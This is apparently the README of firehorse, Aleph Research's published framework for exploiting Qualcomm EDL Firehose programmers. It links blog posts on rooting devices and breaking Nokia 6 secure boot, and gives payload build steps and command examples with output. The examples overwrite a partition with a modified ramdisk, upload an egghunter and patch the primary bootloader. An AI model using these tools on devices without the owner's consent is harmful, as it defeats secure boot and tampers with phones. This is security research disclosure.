 # firehorse 
By Roee Hay ([@roeehay](https://twitter.com/roeehay)) & Noam Hadad, Aleph Reseserch, HCL Technologies 

Research & Exploitation framework for Qualcomm EDL Firehose programmers.

Blog posts:

1. [Exploiting Qualcomm EDL Programmers (1): Gaining Access & PBL Internals](https://alephsecurity.com/2018/01/22/qualcomm-edl-1/)
2. [Exploiting Qualcomm EDL Programmers (2): Storage-based Attacks & Rooting](https://alephsecurity.com/2018/01/22/qualcomm-edl-2/)
3. [Exploiting Qualcomm EDL Programmers (3): Memory-based Attacks & PBL Extraction](https://alephsecurity.com/2018/01/22/qualcomm-edl-3/)
4. [Exploiting Qualcomm EDL Programmers (4): Runtime Debugger](https://alephsecurity.com/2018/01/22/qualcomm-edl-4/)
5. [Exploiting Qualcomm EDL Programmers (5): Breaking Nokia 6's Secure Boot](https://alephsecurity.com/2018/01/22/qualcomm-edl-5/) 


## Usage 

### Prerequisites
To use this tool you'll need:
   1. Qualcomm Product Support Tools (QPST - we used version 2.7.437 running on a windows 10 machine)
   2. A Cross compiler to build the payload for the devices (we used [arm-eabi-4.6](https://android.googlesource.com/platform/prebuilts/gcc/linux-x86/arm/arm-eabi-4.6/) toolchain for aarch32 and [aarch64-linux-android-4.8](https://android.googlesource.com/platform/prebuilts/gcc/linux-x86/aarch64/aarch64-linux-android-4.8/) toolchain for aarch64, both running on ubuntu 16.04 machine)
   3. Aquire the relevant programmers and copy them to the host/target/device directory


### Building the payloads
First, edit the Makefile in the device directory - set the device variable to whatever device you want (nokia6, angler, ugglite, mido and cheeseburger are currently supported).
<br/>
<br/>
Next, set the CROSS_COMPILE_32 and CROSS_COMPILE_64 enviroment vars as follows:
```
export CROSS_COMPILE_32=<path-to-arm-eabi-4.6-toolchain>/bin/arm-eabi-
export CROSS_COMPILE_64=<path-to-aarch64-linux-android-4.8-toolchain>/bin/aarch64-linux-android-
```
Then call make and the payload for your specific device will be built

### Configure the tool 
Before we start, we need to configure some stuff, edit the constants.py file in the host directory:
  1. set COM to whatever com port the device is connnected to
  2. set FH_LOADER with a path to the fh_loader.exe  in the QPST\bin directory
  3. set SAHARA_SERVER with a path to the QSaharaServer.exe  in the QPST\bin directory

```python
COM = "COM17"
FH_LOADER = r"C:\Program Files (x86)\Qualcomm\QPST437\bin\fh_loader.exe"
SAHARA_SERVER = r"C:\Program Files (x86)\Qualcomm\QPST437\bin\QSaharaServer.exe" 
```


### Usage examples
```
c:\firehorse\host>python firehorse.py -s -c COM17 -t nokia6 target magic
INFO: sending programmer...
INFO: Overwriting partition logdump with ../tmp\nokia6-ramdisk-modified.cpio.gz...
INFO: applying patches and breakpoints...
INFO: installing bp for 0010527c
INFO: installing bp for 00104130
[...]
INFO: creating pagecopy...
INFO: pages: set([272, 256, 259, 260, 261])
INFO: uploading firehorse data...
INFO: uploading egghunter to 080af000
INFO: 080af000
INFO: i = 0, dst = 080d0000, cksum = d1fe325f
INFO: i = 1, dst = 080d0320, cksum = 3c092224
INFO: got all parts in 1 tries
INFO: uploading firehorse...
INFO: i = 0, dst = 080b0000, cksum = f5234b61
INFO: i = 1, dst = 080b0320, cksum = 641cb436
[...]
INFO: got all parts in 2 tries
INFO: initializing firehorse...
INFO: calling pbl patcher...
```


```
c:\firehorse\host>python firehorse.py -c COM17 -t nokia6 fw hello

c:\firehorse\host>python firehorse.py -c COM17 -t nokia6 fw peek 0x100000 0x10
INFO: 00100000  22 00 00 ea 70 00 00 ea 74 00 00 ea 78 00 00 ea   "...p...t...x...
```

